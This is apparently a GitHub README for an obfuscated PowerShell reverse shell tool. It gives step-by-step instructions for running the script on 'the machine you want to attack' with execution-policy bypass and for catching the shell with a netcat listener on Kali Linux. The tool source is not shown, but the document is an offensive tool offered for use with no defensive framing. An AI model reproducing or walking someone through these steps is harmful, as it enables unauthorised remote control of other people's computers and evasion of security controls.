 # reverse_shell_ast
Reverse powershell script with obfuscation


Usage:


On the client side: (The machine you want to attack)

1 - clone repository
2 - open powershell and navigate to the "rev_shell_ast" direcory
3 - Edit the rev_shell_ast.ps1 to add your server ip address and port number

On the server side: (Kali Linux)

a - open a netcat listener: nc -lvp <port number you chosed in the script>

On the client side: (The machine you want to attack)
4 - PowerShell -ExecutionPolicy Bypass -File .\rev_shell_ast.ps1
  
On the server side: (Kali Linux)
b - press enter  
c - Execute commands

  !! Note that this script only works on your local network, so the client machine must be connected to the same router as the server machine

